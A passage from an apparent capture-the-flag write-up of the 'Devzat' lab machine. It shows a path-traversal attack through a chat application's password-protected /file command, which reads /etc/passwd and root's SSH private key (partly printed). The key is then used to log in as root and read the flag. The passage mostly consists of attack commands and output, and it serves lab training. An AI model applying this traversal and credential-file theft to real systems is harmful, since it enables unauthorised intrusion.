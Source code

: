With the right password, it leaks the path of the running process, `/root/devzat`:

```

oxdf: /file notAFile CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/notAFile does not exist!

```

I’m able to read `/etc/passwd`:

```

oxdf: /file ../../etc/passwd CeilingCatStillAThingIn2021?
[SYSTEM] root:x:0:0:root:/root:/bin/bash
[SYSTEM] daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
[SYSTEM] bin:x:2:2:bin:/bin:/usr/sbin/nologin
[SYSTEM] sys:x:3:3:sys:/dev:/usr/sbin/nologin
[SYSTEM] sync:x:4:65534:sync:/bin:/bin/sync
[SYSTEM] games:x:5:60:games:/usr/games:/usr/sbin/nologin
...[snip]...

```

I can also read an SSH key from `/root/.ssh`:

```

oxdf: /file ../.ssh/id_rsa CeilingCatStillAThingIn2021?
[SYSTEM] -----BEGIN OPENSSH PRIVATE KEY-----
[SYSTEM] b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
[SYSTEM] QyNTUxOQAAACDfr/J5xYHImnVIIQqUKJs+7ENHpMO2cyDibvRZ/rbCqAAAAJiUCzUclAs1
...[snip]...
[SYSTEM] Q0ekw7ZzIOJu9Fn+tsKoAAAAD3Jvb3RAZGV2emF0Lmh0YgECAwQFBg==
[SYSTEM] -----END OPENSSH PRIVATE KEY-----

```

### SSH

With that key, I can connect over SSH:

```

oxdf@hacky$ ssh -i ~/keys/devzat-root root@devzat.htb
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)
...[snip]...
Last login: Sun Oct 17 15:57:45 2021 from 10.10.14.9
root@devzat:~#

```

And grab `root.txt`:

```

root@devzat:~# cat root.txt
d7bb5cba************************

```